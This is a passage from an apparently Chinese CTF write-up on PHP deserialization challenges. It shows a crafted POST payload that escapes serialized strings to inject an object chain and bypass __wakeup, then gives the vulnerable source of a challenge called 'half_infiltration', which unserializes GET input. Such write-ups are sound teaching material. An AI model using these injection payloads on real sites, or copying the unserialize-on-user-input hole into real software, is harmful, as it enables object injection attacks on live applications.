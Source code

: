 ![dwAHDP.png](https://s1.ax1x.com/2020/08/23/dwAHDP.png)

同时绕过wakeup，最终构造如下

````
username=\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0&password=%3Bs%3A3%3A%22aaa%22%3BO%3A7%3A%22topsolo%22%3A2%3A%7BS%3A7%3A%22%00%2A%00%5C6e%5C61%5C6d%5C65%22%3BO%3A7%3A%22midsolo%22%3A1%3A%7BS%3A7%3A%22%00%2A%00%5C6e%5C61%5C6d%5C65%22%3BO%3A6%3A%22jungle%22%3A0%3A%7B%7D%7D%7Ds%3A3%3A%22ccc%22%3Bi%3A7%3B%7D
````


![dwA7ut.png](https://s1.ax1x.com/2020/08/23/dwA7ut.png)





# half_infiltration

```php
 <?php
highlight_file(__FILE__);

$flag=file_get_contents('ssrf.php');

class Pass
{


    function read()
    {
        ob_start();
        global $result;
        print $result;

    }
}

class User
{
    public $age,$sex,$num;

    function __destruct()
    {
        $student = $this->age;
        $boy = $this->sex;
        $a = $this->num;
    $student->$boy();
    if(!(is_string($a)) ||!(is_string($boy)) || !(is_object($student)))
    {
        ob_end_clean();
        exit();
    }
    global $$a;
    $result=$GLOBALS['flag'];
        ob_end_clean();
    }
}

if (isset($_GET['x'])) {
    unserialize($_GET['x'])->get_it();
} 


```